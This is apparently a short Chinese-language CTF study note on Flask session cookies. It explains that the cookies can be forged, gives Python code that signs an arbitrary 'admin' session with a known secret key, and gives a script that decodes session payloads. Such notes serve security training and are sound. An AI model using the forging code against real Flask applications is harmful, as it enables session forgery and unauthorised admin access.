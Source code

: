 - 存储在 cookie 中，可以伪造
- 使用secret_key签名任意对象：
	- ```python
	  from flask import Flask
	  from flask.sessions import SecureCookieSessionInterface
	  app = Flask(__name__)
	  app.secret_key = b"fb+wwn!n1yo+9c(9s6!_3o#nqm&&_ej$tez)$_ik36n8d7o6mr#y"
	  session_serializer = SecureCookieSessionInterface().get_signing_serializer(app)
	  print(session_serializer.dumps("admin"))
	  ```
- 可以用 flask-session-cookie-manager 或者 [[CTF/Flask-Unsign]] 解密
- 也可以用如下代码解密
	- ```python
	  #!/usr/bin/env python3
	  import sys
	  import zlib
	  from base64 import b64decode
	  from flask.sessions import session_json_serializer
	  from itsdangerous import base64_decode
	  
	  def decryption(payload):
	      payload, sig = payload.rsplit(b'.', 1)
	      payload, timestamp = payload.rsplit(b'.', 1)
	  
	      decompress = False
	      if payload.startswith(b'.'):
	          payload = payload[1:]
	          decompress = True
	  
	      try:
	          payload = base64_decode(payload)
	      except Exception as e:
	          raise Exception('Could not base64 decode the payload because of '
	                           'an exception')
	  
	      if decompress:
	          try:
	              payload = zlib.decompress(payload)
	          except Exception as e:
	              raise Exception('Could not zlib decompress the payload before '
	                               'decoding the payload')
	  
	      return session_json_serializer.loads(payload)
	  
	  if __name__ == '__main__':
	      print(decryption(sys.argv[1].encode()))
	  ```